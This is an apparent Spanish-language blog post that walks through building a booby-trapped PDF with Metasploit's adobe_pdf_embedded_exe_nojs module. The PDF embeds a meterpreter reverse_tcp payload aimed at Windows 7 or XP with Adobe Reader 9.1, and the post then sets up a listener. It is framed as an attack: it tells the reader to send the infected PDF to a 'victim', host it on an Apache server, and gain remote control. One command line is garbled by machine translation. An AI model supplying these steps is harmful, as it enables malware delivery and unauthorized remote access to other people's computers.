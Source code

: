 ```yaml
---
title: Envenenando PDF con magia msf vulnerando Windows 7 o xp
date: 2018-12-30
categories: [Pentesting, Herramientas]
excerpt: Practicando con metasploit
tags: [Windows, termux, metasploit]
---  
```


### Requisitos:
---
- Una terminal capaz de ejecutar metasploit
- win 7 o xp teniendo instalado Adobe Reader 9.1

Algunos usuarios me estaban diciendo de como se podria hacer esto, y pues, es muy facil y es posible del mismo metasploit utilizando una vulnerabilidad llamada: Adobe PDF Escape EXE Ingeniería Social (Sin JavaScript) y este modulo lo utilizaremos para incorporar una carga de metasploit en un archivo pdf existente. Ya que sabes lo que necesitamos y que vulnerabilidad explotaremos ¿Comenzamos?  

Abrimos nuestra terminal y ejecutamos metasploit, y ponemos lo siguientes comandos

 ![termux1](/assets/img/post/11/termux1.gif) 
 
Lo primero es poner el mudulo que usaremos:  

```bash
use exploit /windows/fileformat/adobe_pdf_embedded_exe_nojs
```

Usamos el siguiente payload que devolvera un meterpreter  

```bash
Establecer ventanas de carga útil/meterpreter/reverse_tcp 
```

Le damos un nombre a nuestro pdf infectado:  

```bash
set FILENAME standby.pdf  
```

Ponemos nuestra IP  

```bash
set lhost IP
```

Después el puerto a usar  

```bash
set lport 4040  
```

Por ultimo ponemos exploit

```bash
exploit
```

 ![termux](/assets/img/post/11/termux1.jpg) 
 
 El PDF queda en esta carpeta la podemos ver poniendo find .msf4 después les saldrá y moveremos esa carpeta a descargas de la carpeta interna de nuestro dispositivo (En el caso si estamos en android de lo contrario no es necesario)
 
![termux2](/assets/img/post/11/termux2.jpg) 
![termux3](/assets/img/post/11/termux3.jpg) 
 
Ahora que tenemos nuestro pdf con el payload dentro y para ser ejecutado toca enviarselo a la victima para que lo abra, y al momento de que lo abra le saldrá un mensaje como este:
 
![termux4](/assets/img/post/11/termux4.jpg) 
![termux5](/assets/img/post/11/termux5.jpg) 

Nosotros tendremos que ir a nuestra terminal y tecleamos los siguientes comandos:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 4040
set lhost IP
exploit
```

Y cuando lo abra boom, jajaj. Nosotros tendremos control remoto de su sistema cuando lo abra.

Les recomiendo hacer un servidor Apache para poner nuestro PDF y que sea más legible o fácilmente de descargar n.n

![termux6](/assets/img/post/11/termux6.jpg) 